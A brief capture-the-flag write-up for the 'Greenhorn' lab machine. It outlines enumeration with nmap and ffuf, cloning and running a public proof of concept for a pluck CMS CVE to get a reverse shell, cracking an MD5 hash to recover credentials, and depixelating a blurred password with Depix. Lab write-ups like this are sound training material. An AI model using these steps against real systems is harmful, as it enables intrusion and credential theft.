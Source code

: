 ```yaml
---
description: We stealing S1REN flow w this one
---
```


# Greenhorn \[Linux Easy]

## Report

Website running pluck, find a CVE online from which we obtain a reverse shell.

Search that area only (you've encountered this same approach multiple times by now) to find a login.php which contains hash in MD5, crack it to find creds surprisingly for admin in pluck and junior in our target for user.

Find a pdf file which has the password blurred out, use a tool to convert to image and then find plaintext from the pixelated image for root.

### Cheatsheet

```
nmap -sV -sC 10.10.11.25 -v
ffuf -w /usr/share/wordlists/bitquark-subdomains-top100000.txt -H "Host: FUZZ.greenhorn.htb" -u http://greenhorn.htb -mc 200 
ffuf -u http://greenhorn.htb/FUZZ -w common.txt -e .php,.html,.txt -mc 200
git clone https://github.com/Rai2en/CVE-2023-50564_Pluck-v4.7.18_PoC
python3 poc.py
sudo apt-get install poppler-utils (for pdfimages)
pdfimages hi.pdf wassup
git clone https://github.com/spipm/Depix
python3 depix.py -p wassup-000.ppm -s images/searchimages/debruinseq_notepad_Windows10_closeAndSpaced.png -o pass.png
```

## Loot

### Hashes

MD5 hash from login.php - for user 'junior'

### Passwords

Crack the MD5, that's all you really need

### Proof/ Flags/ Other

Port 3000 open (from nmap scan) running another http server

Didnt really need to run a file fuzz because from CVE research that pluck has login.php and admin.php
